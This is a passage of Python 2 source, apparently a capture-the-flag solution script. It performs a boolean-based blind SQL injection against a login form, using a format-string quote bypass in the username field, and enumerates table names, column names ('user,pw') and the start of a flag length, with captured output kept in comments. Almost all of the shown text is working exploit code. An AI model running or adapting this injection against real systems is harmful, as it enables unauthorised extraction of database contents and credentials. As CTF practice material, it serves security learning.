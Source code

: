 ```python
        else:
            print '[*] present tables_len: %s'%(str(i))
            i += 1

#table_len()
'''
[+] get tables_len: 10
'''

def table_name():
    name = ''
    for i in range(1,11):
        for ch in string.printable:
            payload = {"username":"admin%1$' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))={}#".format(i,ord(ch)), "password":"123"}
            r = requests.post(url, payload)
            if basehtml in r.text:
                name += ch
                print '[+] present tables_name: %s'%(name)
                break
#table_name()
'''
[+] present tables_name: data,users
'''

def column_len():
    i = 1
    while True:
        payload = {"username":"admin%1$' and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273))={}#".format(i), "password":"123"}
        r = requests.post(url, payload)
        if basehtml in r.text:
            print '[+] get columns_len: %s'%(str(i))
            break
        else:
            print '[*] present columns_len: %s'%(str(i))
            i += 1
#column_len()
'''
[+] get columns_len: 7
'''

def column_name():
    name = ''
    for i in range(1,8):
        for ch in string.printable:
            payload = {"username":"admin%1$' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),{},1))={}#".format(i,ord(ch)), "password":"123"}
            r = requests.post(url, payload)
            if basehtml in r.text:
                name += ch
                print '[+] present columns_name: %s'%(name)
                break
#column_name()
'''
[+] present columns_name: user,pw
'''

def flag_len():
    i = 1
```